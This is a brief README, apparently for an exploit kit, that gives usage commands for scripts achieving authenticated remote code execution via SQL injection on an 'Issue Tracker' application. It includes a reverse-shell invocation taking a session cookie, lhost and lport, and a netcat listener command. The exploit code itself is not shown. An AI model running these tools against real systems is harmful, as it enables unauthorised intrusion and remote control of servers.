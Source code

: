 # Issue Tracker Authenticated Remote Code Execution Via SQL Injection

## RCE
#### Usage
```bash
python3 issue_rce.py <target_ip> <jessionid_cookie>
```
## Reverse Shell
#### Usage
```bash
python3 issue_rev.py <target_ip> <jsessionid_cookie> <lhost> <lport>
```
#### Usage: Listener
```bash
nc -lvnp <lport>
```
